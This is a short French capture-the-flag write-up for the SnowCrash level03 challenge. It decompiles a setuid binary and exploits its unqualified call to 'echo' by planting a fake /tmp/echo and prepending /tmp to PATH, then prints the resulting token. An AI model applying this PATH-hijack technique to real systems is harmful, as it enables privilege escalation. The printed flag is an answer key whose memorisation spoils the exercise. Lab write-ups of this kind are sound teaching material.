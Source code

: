 Le dossier contient un binaire : level03

```bash
scp -P 4242 level03@localhost:/home/user/level03/level03 .
```

En décompilant ce binaire avec l'outil Ghidra on aperçoit la fonction execve qui éxécute la commande **echo**.

![Ghidra level03](image.png)

On créer un binaire dans lequel on écrit la commande getflag :

```bash
echo '/bin/getflag' > /tmp/echo
chmod +x /tmp/echo
```

On modifie la variable d'environnement PATH pour que celle-ci utilise notre binaire **echo** plûtot que celui dans /bin

```bash
export PATH=/tmp:$PATH
```

On éxécute le binare pour obtenir le password du level04:

```bash
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```